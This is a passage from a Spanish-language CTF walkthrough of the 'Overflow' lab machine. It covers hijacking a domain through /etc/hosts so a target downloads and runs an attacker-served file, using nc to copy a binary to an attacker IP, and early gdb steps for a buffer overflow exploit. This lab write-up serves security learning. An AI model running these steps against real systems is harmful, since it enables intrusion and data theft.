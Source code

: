 Y agregar en el archivo /etc/hosts sobre ese dominio que vimos nuestra ip para que se descargue el archivo para que se ejecute. Pero antes tenemos que ponernos en escucha por el puerto 443 e iniciar el servidor con python.

Hemos tenido acceso ahora para este usuario, intente conectarme por ssh generando la llave id_rsa pero no fue posible. Asi que continue asi.

![tester owned](/assets/images/Overflow/tester.png)

Ahora lo que falta es meternos en el directorio root. En el directorio /opt vemos un directorio encrypt en el que tenemos acceso y vemos un binario, el cual nos pasaremos a nuestra maquina de la manera siguiente:

```s
#Maquina que envia
nc 10.10.14.22 443 < file_encrypt
#Maquina que recibe
nc -nlvp 4444 > file
```

Ahora para analizar el desbordamiento de buffer vamos a usar la herramienta gdb de la manera siguiente
que hay que clonar del repositorio de linux, por que de apt esta desactualizado.

```s
#Puede no compilarse en arch linux, asi que se usaria tambien el siguiente script
LC_ALL=en_US.UTF-8 gdb ./file_encrypt

#Para listar las funciones existentes
info functions

#Para desensamblar una funcion
disass random

#para meter un breakpoint en random (Punto donde se pare el programa)
break *random+57

#Para correr el programa
r

#Para generar un patron
Pattern create
```
